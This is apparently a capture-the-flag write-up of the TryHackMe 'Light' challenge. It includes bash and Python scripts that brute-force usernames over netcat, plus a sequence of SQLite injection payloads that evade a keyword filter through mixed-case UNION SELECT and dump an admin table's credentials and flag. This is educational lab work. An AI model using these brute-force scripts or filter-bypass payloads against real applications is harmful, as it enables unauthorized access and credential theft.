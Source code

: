 # Light

I started on this challenge with minimal knowledge of SQL/SQLite commands and workings (just the basics as learnt from the TryHackMe course room detailed under the Web Hacking -> SQL Injection section in this gitbook: [https://jarrettgxz-sec.gitbook.io/penetration-testing-ethical-hacking/web-hacking/sql-injection](https://jarrettgxz-sec.gitbook.io/penetration-testing-ethical-hacking/web-hacking/sql-injection)). I have gained ideas and insights from a few online resources and also from _ChatGPT_.

Note: _ChatGPT_ was used to point myself towards the right direction on SQLite specific concepts such as commands to retrieve the table or columns names from the current database instance, but not on specific SQL injection concepts. The SQL injection commands were generated by myself based on multple trial-and-errors. For example, commands to query from `sqlite_master` was generated by ChatGPT, however, the insertion of specific characters (eg. quotation marks, equal signs, etc.) within the final command sent to the vulnerable database application was added myself based on my own knowledge from past experiences.



_**Bash script to brute force the password:**_

```bash
#!/usr/bin/bash

filename="/usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt"

while IFS="" read -r line; do
	# eg. echo smokey | nc <target> 1337
	res=$(echo "$line" | nc -w 1 <target> 1337)

	if [[ "$res" == *"not found"* ]]; then
		# if the substring "not found" is present, means user not found
		...
	else
		# print success message and exit
		...
	fi;

done < "$filename"


```

_**Python script:**_

```python
#!/usr/bin/python3

import socket

HOST='10.10.34.209'
PORT=1337
#filename='/usr/share/wordlists/SecLists/Usernames/top-usernames-shortlist.txt'
#filename='test.txt'
#filename='/usr/share/wordlists/SecLists/Usernames/Names/names.txt'
#filename='/usr/share/wordlists/SecLists/Usernames/Names/femalenames-usa-top1000.txt'
#filename='Security-Research/tools/aws-pentest-tools/iam_user_enum/default-word-list.txt'
filename='wordlist/usernames.txt'

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.connect((HOST,PORT))
    s.recv(1024) # flush 1
    s.recv(1024) # flush 2


    f = open(filename, 'r')

    for username in f:
        if len(username) <= 10:
            continue

        username = username.lower()

        print(f'[!] Trying {username.replace('\n', '')}', end=' ')
        
        s.send(bytes(username, 'utf-8'))
        data = s.recv(1024)
        str_data = str(data, 'utf-8')

        if 'not found' in str_data:
            print('failed')
            s.recv(50)

        else:
            print(str_data)
            break

    f.close()

```

_**Word-lists to try out**_:

1. /`usr/share/wordlists/seclists/Usernames/Names/names.txt`
2. `/usr/share/wordlists/seclists/Usernames/Names/malenames-usa-top1000.txt`&#x20;
3. `/usr/share/wordlists/seclists/Usernames/Names/femalenames-usa-top1000.txt`

I found the username: _**alice**_. However this wasn't the admin username. Probably a rookie mistake on my part for not realizing sooner that an SQL injection is likely to be more feasible.&#x20;

### SQL Injection

I noticed that the input form length is very long, and realized that it's highly unlikely that I would be able find the username with a simple brute-force.&#x20;

As suggested from the challenge name, this database is likely to be a SQLite database application.

**Possible SQL statements on the server side:**

```sql
SELECT * FROM users WHERE name='smokey';
```

**Attempts with common SQL injection inputs:**

1. _**Force the statement to resolve to true**_

_Potentially tricking the database to return all the users_

```sql
' OR 1=1 --
```

_Hope to resolve to the following in the server side_:

```sql
SELECT * FROM users WHERE name='' OR 1=1--';
```

**Reponse**: `For strange reasons I can't explain, any input containing /*, -- or, %0b is not allowed :)`

This tells us that comment characters are banned.

**Another attempt:**

```sql
' OR ''='
```

_Hope to resolve to the following in the server side_:

```sql
SELECT * FROM users WHERE name='' OR ''=''
```

This seems to return a password value (associated with the _**alice**_ username).&#x20;



2. _**UNION and SELECT statement**_

The UNION and SELECT keywords (along with their lower capital variations) are all banned too

```sql
UNION
SELECT
union
select
```

**Reponse**: `Ahh there is a word in there I don't like :(`

3. _**Obfuscation of keywords**_

After pondering for awhile on the error message returned from the statement in point 2 above, I got the idea of using non-standard SQL keyword commands, apart from the conventional fully capitalized, or fully non-capitalized versions (`UNION`, `union`).

```sql
--**
' Union Select name from sqlite_master where type = 'table' '=
--OUTPUT: Error: near "'='": syntax error

--**
' Union Select name from sqlite_master where type = 'table' OR '=
--OUTPUT: Password: admintable


--**
' Union Select * from admintable '=
--OUTPUT: Error: SELECTs to the left and right of UNION do not have the same number of result columns

--** to resolve the first half of the UNION to false (since anything with AND '1=0' will always be false)
' AND '1=0' Union Select * from admintable '=
--OUTPUT: Error: SELECTs to the left and right of UNION do not have the same number of result columns


--** TRYING TO GET COLUMN NAMES OF THE TABLE 'admintable'
-- ** NOTICE the different cases of the letters, different from: UNION, union
' Union Select sql FROM sqlite_master WHERE type = 'table' AND name = 'users' OR '=
--OUTPUT: 
/*
Password: CREATE TABLE admintable (
                   id INTEGER PRIMARY KEY,
                   username TEXT,
                   password INTEGER)
*/

--**
' Union Select username from admintable '
--OUTPUT: Password: TryHackMeAdmin

--** NOTE: Union keyword has funny capitalization, but works nonetheless
' UnIoN Select password from admintable '
--OUTPUT: Password: THM{SQLit3_InJ3cTion_is_SimplE_nO?}

--**
' UNion Select password from admintable where username='TryHackMeAdmin' or '=
--OUTPUT: Password: mamZtAuMlrsEy5bp6q17

```

From the results, I have learnt that SQLite accepts variations of SQL keywords, such as but not limited to: `Union`, `uNion`, `unIon`, `uniOn`, `UNion`, etc. are allowed, and are treated as valid commands.



{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md" %}

{% embed url="https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/#FindColumnsHavingGroupbyErrorBased" %}

{% embed url="https://www.tutlane.com/tutorial/sqlite/sqlite-injection-attacks" %}
